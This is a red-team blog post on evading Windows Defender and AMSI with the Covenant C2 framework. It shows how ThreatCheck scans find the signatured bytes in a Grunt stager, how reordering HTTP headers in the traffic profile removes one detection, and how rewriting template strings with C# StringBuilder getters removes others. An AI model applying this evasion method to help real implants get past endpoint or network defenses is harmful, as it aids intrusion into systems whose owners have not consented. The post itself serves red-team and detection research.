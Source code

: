 ```yaml
---
title: "Using Custom Covenant Listener Profiles & Grunt Templates to Elude AV"
date: 2020-11-07T11:54:14Z
tags:
    - "c#"
    - ".net"
    - "covenant"
authors:
    - rastamouse
draft: false
---
```


Whenever we download an offensive tool from the Internet, it comes as no surprise when it gets snapped up by an anti-virus solution.  AV vendors are certainly keeping a keen eye on tools posted publicly (insert conspiracy theory about Microsoft owning GitHub) and are reacting relatively quickly to push signatures for those tools.  However, it's probably fair to say that these signatures are not particularly robust, and only really serve to catch those that don't have the skills or knowledge to make the necesary modifications.

This holds true for Covenant's Windows implant - Grunts.

![grunt-blocked](/images/covenant-profiles-templates/default-launcher.png "Default PowerShell Launcher blocked")

[Ryan's](https://twitter.com/cobbr_io) position is (quite rightly) that circumventing AV is a step that the user is responsible for. It is not the goal of the project to provide undetectable implants or magic "AV bypass" buttons. However, Covenant does provide various means of changing the default Grunt behaviour, which can be leveraged in such a way as to remove the indicators that a particular security product is finding.

This post will look at **Traffic Profiles** and **Grunt Templates**.

Instead of making modifications willy-nilly, we need to know (with a reasonable degree of accuracy) which part(s) of the Grunt Stager get detected.  For that I use [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck), which will split a sample into multiple chunks and submit them either to `AMSI` or Defender's `MpCmdRun` utility.

## Traffic Profiles

Create a new listener with one of the default profiles, then generate and download the associated Binary Launcher to a folder that has an AV exclusion (so that it doesn't get removed instantly).

Next, scan that Stager with ThreatCheck:  `ThreatCheck.exe -f C:\Tools\GruntHTTP.exe`

![threatcheck](/images/covenant-profiles-templates/threatcheck-default-launcher.png "ThreatCheck default stager")

ThreatCheck dumps a 256-byte hex view up from the end of the offending bytes, so the "interesting" bytes are always at the bottom.  Be aware that if the actual bad bytes are greater than 256 in length, it will be truncated in this view.  In any case, we see here the connect address for the listener, followed by the base64 encoded string `VXNlci1BZ2VudA==` with is `User-Agent`.

These request headers are part of the traffic profile that we created our listener with.  If we go into the profile editor, we're free to add, remove, change these as we see fit.

![defaultheaders](/images/covenant-profiles-templates/default-request-headers.png "Default HTTP headers")

I opted to insert an additional header at the top so that the base64 encoded string for User-Agent was not appearing directly after the connect URL.  There are plenty of valid headers to [choose from](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields).

![newheader](/images/covenant-profiles-templates/new-request-headers.png "New HTTP header")

Now when we regenerate the Binary Launcher and scan it with ThreatCheck, that particular detection is gone, but we get another one.  ThreatCheck will only show one detection at a time, so this is certainly an iterative process.

![threatcheck](/images/covenant-profiles-templates/threatcheck-message-format.png "ThreatCheck Message Format")

## Grunt Templates

This detection comes from the StagerCode in the Grunt template, rather than the traffic profile.

![messageformat](/images/covenant-profiles-templates/stagercode-message-format.png "StagerCode Message Format")

On the assumption that this is a simple string detection, we can try and circumvent it using concatenation or other string-manipulations.  I replaced line 43 with `string MessageFormat = GetMessageFormat;` and inserted a new method for retrieving the string via a string builder.

```
public static string GetMessageFormat
{
    get
    {
        var sb = new StringBuilder(@"{{""GUID"":""{0}"",");
        sb.Append(@"""Type"":{1},");
        sb.Append(@"""Meta"":""{2}"",");
        sb.Append(@"""IV"":""{3}"",");
        sb.Append(@"""EncryptedMessage"":""{4}"",");
        sb.Append(@"""HMAC"":""{5}""}}");
        return sb.ToString();
    }
}
```

Regenerate the stager and this time we have no detections from ThreatCheck.

```
ThreatCheck.exe -f C:\Users\Rasta\Downloads\GruntHTTP.exe
[+] No threat found!
[*] Run time: 0.23s
```

With a feeling of elation we run the Stager, but it seems to break at Stage2. So what's going on here?

![stage2](/images/covenant-profiles-templates/stage2-grunt.png "Stage2 Grunt")

Well, this machine has .NET Framework 4.8 installed so AMSI is scanning content being passed into `Assembly.Load()`. This is the penultimate instruction the Stager performs before passing control to the full Grunt stage.

```
Assembly gruntAssembly = Assembly.Load(DecryptedAssembly);
gruntAssembly.GetTypes()[0].GetMethods()[0].Invoke(null, new Object[] { CovenantURI, CovenantCertHash, GUID, SessionKey });
```

So something in that final stage is being flagged by AMSI and is being prevented from loading.  It turns out that the ExecutorCode in the Grunt template has the same message format string that we changed in the StagerCode.

![executor](/images/covenant-profiles-templates/executorcode-message-format.png "Executor Message Format")

I swapped this for the same getter as in the Stager:

```
private static string GruntEncryptedMessageFormat
{
    get
    {
        var sb = new StringBuilder(@"{{""GUID"":""{0}"",");
        sb.Append(@"""Type"":{1},");
        sb.Append(@"""Meta"":""{2}"",");
        sb.Append(@"""IV"":""{3}"",");
        sb.Append(@"""EncryptedMessage"":""{4}"",");
        sb.Append(@"""HMAC"":""{5}""}}");
        return sb.ToString();
    }
}
```

Et voila.

![binary](/images/covenant-profiles-templates/binary-grunt.png "Binary Grunt")

Because all the launchers are derived from the same source you may find that others just start working (such as the PowerShell launcher).  Other launchers, like the MSBuild may have additional indicators that you have to work around.

![powershell](/images/covenant-profiles-templates/powershell-grunt.png "PowerShell Grunt")

## Conclusion

This post has demonstrated how to use the Covenant Traffic Profiles and Grunt Templates to avoid detections by Windows Defender (both on disk and in memory), without relying on code execution-based bypassed such as patching the AmsiScanBuffer exported function.

Modifying the traffic profile may provide an additional advantage of avoiding network-based defensive solutions such as IDS/IPS.

The same methodology can be extended to avoid signatures of other AV engines and for other Grunt Launchers.